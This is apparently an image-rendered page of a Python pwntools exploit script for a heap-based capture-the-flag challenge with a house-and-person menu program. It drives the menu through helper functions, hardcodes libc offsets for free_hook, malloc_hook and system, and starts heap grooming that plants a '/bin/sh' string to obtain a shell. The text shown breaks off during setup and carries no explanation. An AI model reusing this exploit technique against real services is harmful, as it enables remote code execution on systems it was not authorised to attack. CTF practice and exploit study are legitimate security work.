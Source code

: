 ```py
def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())
io = start()

def createhouse(name, size, desc):
	io.sendlineafter('>> ','1')
	io.sendafter('House : ',name)
	io.sendlineafter('of House : ',str(size))
	io.sendafter('description : ',desc)

def createperson(name,size,desc):
	io.sendlineafter('>> ','2')
	io.sendafter('Person :',name)
	io.sendlineafter('of Person : ',str(size))
	io.sendafter('details : ',desc)

def addperson(personidx,houseidx):
	io.sendlineafter('>> ','3')
	io.sendlineafter('number : ',str(personidx))
	io.sendlineafter('? : ',str(houseidx))

def removeperson(personidx,houseidx):
	io.sendlineafter('>> ','4')
	io.sendlineafter('? : ',str(houseidx))
	io.sendlineafter('number : ',str(personidx))

def viewhouse(houseidx):
	io.sendlineafter('>> ','5')
	io.sendlineafter('? : ',str(houseidx))

def viewperson(personidx, houseidx):
	io.sendlineafter('>> ','6')
	io.sendlineafter('? : ',str(houseidx))
	io.sendlineafter('number : ',str(personidx))

def party(houseidx):
	io.sendlineafter('>> ','7')
	io.sendlineafter('? : ',str(houseidx))

def destroy(houseidx):
	io.sendlineafter('>> ','8')
	io.sendlineafter('? : ',str(houseidx))

free_hook = 0x1e75a8
malloc_hook = 0x1e4c30
system = 0x52fd0

createhouse('A'*0x20,0x18,'HKHK')
for i in range(2):
	createperson('ZZZ',0x18,'HKHK')
createperson('/bin/sh\x00',0x18,'vvv')
for i in range(5):
	createperson('HKHK',0x18,'HKHK')
createperson('HKHK',0x418,'HKHK')
createperson('HKHK',0x38,'HKHK')
```